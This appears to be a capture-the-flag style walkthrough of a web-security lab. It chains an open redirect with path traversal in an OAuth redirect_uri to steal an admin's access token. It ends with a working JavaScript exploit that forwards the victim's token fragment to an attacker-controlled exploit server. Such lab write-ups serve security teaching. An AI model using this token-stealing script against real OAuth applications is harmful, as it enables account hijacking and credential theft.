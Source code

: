 # Stealing OAuth access tokens via an open redirect
# Objective
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner. 

You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website uses OAuth to allow users to log with their social account.

|![](Images/image-18.png)|
|:--:| 
| *OAuth login - access_token is placed as fragment in redirect URL* |
|![](Images/image-19.png)|
| *OAuth login* |
|![](Images/image-20.png)|
| *OAuth login - access_token is used in authorization header to retrieve user data from /me endpoint* |
|![](Images/image-21.png)|
| *OAuth login - access_token is used to complete login* |


## Exploitation
The website has `Next page` funcionality that is vulnerable to open redirect.

|![](Images/image-24.png)|
|:--:| 
| *Next page functionality* |
|![](Images/image-25.png)|
| *Open redirect vulnerability* |

Attacker can bypass `redirect_uri` validation by using path traversal.

|![](Images/image-22.png)|
|:--:| 
| *Parameter redirect_uri modification* |
|![](Images/image-23.png)|
| *Path Traversal - Redirect to post page* |

Combining two above mentioned vulnerabilities attacker can create link page that would leak victim's authorization code. The sript located at attacker's website needs to extract fragment value with `access_token` and for example send it as parameter to attacker's website. Otherwise URL fragment will be omitted by browser.

|![](Images/image-26.png)|
|:--:| 
| *Open redirect test* |
|![](Images/image-28.png)|
| *Exploit server configuration* |
|![](Images/image-27.png)|
| *Account hijacking - victim's authorization code* |
|![](Images/image-29.png)|
| *Account hijacking - Using stolen authorization code in authorization header* |

Exploit server configuration:
```html
<script>
    if (!document.location.hash) {
        // Provide payload if this is first victim's request
        window.location = 'https://oauth-0a08003704c629d2805b56dc027b00b4.oauth-server.net/auth?client_id=p20li0mdbxfe80qt6z08m&redirect_uri=https://0a9a006b040829108023580700520094.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a2400df04b7292f8074571a01d70023.exploit-server.net/exploit&response_type=token&nonce=-1533118304&scope=openid%20profile%20email'
    } else {
        // Steal location hash from second victim's request - extract location hash if present
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
